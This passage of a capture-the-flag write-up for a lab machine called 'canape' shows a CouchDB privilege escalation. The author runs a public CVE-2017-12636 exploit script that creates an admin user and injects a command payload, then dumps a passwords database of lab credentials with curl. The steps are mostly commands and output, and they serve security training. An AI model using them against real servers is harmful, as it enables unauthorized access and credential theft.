 ```bash
{"id":"f53679a526a868d44172c83a6100451b","key":"f53679a526a868d44172c83a6100451b","value":{"rev":"1-3f6141f3aba11da1d65ff0c13fe6fd39"}}
]}
www-data@canape:/$ curl http://localhost:5984/simpsons/f0042ac3dc4951b51f056467a1000dd9
{"_id":"f0042ac3dc4951b51f056467a1000dd9","_rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329","character":"Homer","quote":"Doh!"}
www-data@canape:/$ # Nothing interesting in the simpsons table
@canape:/$ curl http://localhost:5984/_users/_all_docs                            
{"error":"unauthorized","reason":"You are not a server admin."}                           
www-data@canape:/$ curl http://localhost:5984/passwords/_all_docs                         
{"error":"unauthorized","reason":"You are not authorized to access this db."}  
```

I guessed that I need to somehow access the `passwords` table. Therefore, I searched for known exploits for CouchDB version 2.0.0 privilege escalation. I found [CVE-2017-12636](https://www.exploit-db.com/exploits/44913/) and uploaded the exploit (luckily a Python script) to the box by serving it from my local machine. It seemed to work!

```bash
www-data@canape:/tmp$ python cve-2017-12636.py -c "passwords" -u "foobar" -p "sdfszfdds
f23423" --priv http://127.0.0.1:5984
< "passwords" -u "foobar" -p "sdfszfddsf23423" --priv http://127.0.0.1:5984               
[*] Detected CouchDB Version 2.0.0
201 - {"ok":true,"id":"org.couchdb.user:foobar","rev":"1-c1a92496826dcb21158035457c59cde1"}

[+] User foobar with password sdfszfddsf23423 successfully created.                       
[+] Created payload at: http://127.0.0.1:5984/_node/couchdb@localhost/_config/query_servers
/cmd
[+] Command executed: passwords
[*] Cleaning up.
www-data@canape:/tmp$ curl http://foobar:sdfszfddsf23423@127.0.0.1:5984/passwords/_all_docs
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}
www-data@canape:/tmp$ curl http://foobar:sdfszfddsf23423@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}
www-data@canape:/tmp$ curl http://foobar:sdfszfddsf23423@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc43800368d
{"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}
www-data@canape:/tmp$ curl http://foobar:sdfszfddsf23423@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc438003e5f
{"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}
www-data@canape:/tmp$ curl http://foobar:sdfszfddsf23423@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc438004738
{"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}
```
